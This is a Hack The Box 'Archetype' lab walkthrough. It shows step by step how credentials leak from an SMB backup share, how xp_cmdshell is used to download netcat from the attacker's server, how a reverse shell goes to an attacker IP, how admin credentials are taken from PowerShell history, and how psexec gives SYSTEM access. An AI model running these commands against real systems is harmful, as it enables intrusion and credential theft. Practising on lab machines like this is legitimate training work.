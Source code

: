# Hack The Box Archetype Walkthrough

## Archetype

Assign the IP address of the Archetype machine to an environment variable:  
```export IP=10.10.10.27```  

Scan the Archetype machine:  
**-sC** for a script scan using the default scripts  
**-sV** for version detection  
**-Pn** disable host discovery (we already know the host is up)  
```nmap -sC -sV -Pn $IP```

**Open Ports**
```
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM

target name: ARCHETYPE
smb running on ports 135/139/445
SQL server running on 1433
computer name: ARCHETYPE
smb security mode:
	- account_used: guest
	- authentication_level: user
```
It looks like SMB is running on ports **135/139/445** as well as a SQL server instance running on port **1433**. Also, it looks like the nmap scan discovered that the smb security mode is using guest access.  
Let's list the available SMB shares on the target:  
```smbclient -N -L ////$IP//```  

**SMB shares**
```
    Sharename       Type      Comment
    ---------       ----      -------
    ADMIN$          Disk      Remote Admin
    backups         Disk      
    C$              Disk      Default share
    IPC$            IPC       Remote IPC
```

The backups share looks interesting, let's attempt to access the backups SMB share:  
```smbclient //$IP/backups```
```
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jan 20 07:20:57 2020
  ..                                  D        0  Mon Jan 20 07:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020

                10328063 blocks of size 4096. 8256400 blocks available

```
Let's download the **prod.dtsConfig** and have a look at it:  
```smb: \> get prod.dtsConfig```
```
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (1.1 KiloBytes/sec) (average 1.1 KiloBytes/sec)
```
Back on our Kali machine, let's print the contents of the file we just got:  
```cat prod.dtsConfig```

```
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

Let's attempt to connect to the SQL server using the credentials found in the prod.dtsConfig file:  
```impacket-mssqlclient sql_svc:M3g4c0rp123@$IP -windows-auth```
```
SQL >
```

This is great for an initial foothold, but we need to do some privilege escalation because this user doesn't have administrative privileges. Because we're able to execute commands on the target machine using xp_cmdshell via the SQL connection, let's try to get netcat onto the target machine so we can initiate a reverse shell.  

Copy the nc.exe from the windows-resources folder on Kali to my home folder:  
```cp /usr/share/windows-resources/binaries/nc.exe .```

Start a python3 web server in the current folder to host the nc.exe file:  
```python3 -m http.server 80```
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

On the target machine, download the nc.exe file using xp_cmdshell, wget, and the previous mssqlclient connection. We're going to put it into the **%TEMP%** folder:  
```xp_cmdshell powershell wget http://10.10.17.159/nc.exe -OutFile %TEMP%\nc.exe -UseBasicParsing```
```
10.10.10.27 - - [27/Jun/2021 21:57:14] "GET /nc.exe HTTP/1.1" 200 -
```

Start a nc listener on my Kali machine on port **4444** to listen for a reverse shell connection:  
```sudo nc -lvnp 4444```

Change directory to **C:\Users\sql_svc\Desktop** and print the **user.txt** for the user flag:  
```cd C:\users\sql_svc\Desktop```
```more user.txt```
```
3e7b102e78218e935bf3f4951fec21a3cd
```

From the target machine, use xp_cmdshell once again to execute the nc.exe file we just put onto the target machine to connect to my Kali machine on port **4444**:  
```xp_cmdshell powershell "%TEMP%\nc.exe -nv 10.10.17.159 4444 -e cmd.exe"```
```
C:\Windows\system32>whoami
whoami
archetype\sql_svc
```

By poking around for the powershell history file, we find it in the default directory:  
```dir/s *history.txt```
```
c:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
```

The following details are contained within the history file:  
```more ConsoleHost_history.txt```
```
net.exe use T: \\Archetype\backups **/user:administrator MEGACORP_4dm1n!!**
```

It looks like someone is using an Administrator account to map the SMB share, and we just got some potential admin credentials! Let's try them out back on our Kali machine with impacket's psexec:  
```impacket-psexec administrator@$IP```
```
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.27.....
[*] Found writable share ADMIN$
[*] Uploading file fzsGgOsb.exe
[*] Opening SVCManager on 10.10.10.27.....
[*] Creating service dMzL on 10.10.10.27.....
[*] Starting service dMzL.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.
```
```C:\Windows\system32>whoami```
```
nt authority\system
```
Boom! Well done! Now we just need to find the root/system flag, it's generally in the Desktop folder for the respective user/system account:  
```c:\Users\Administrator\Desktop>more root.txt```
```
b91ccec3305e98240082d4474b848528
```
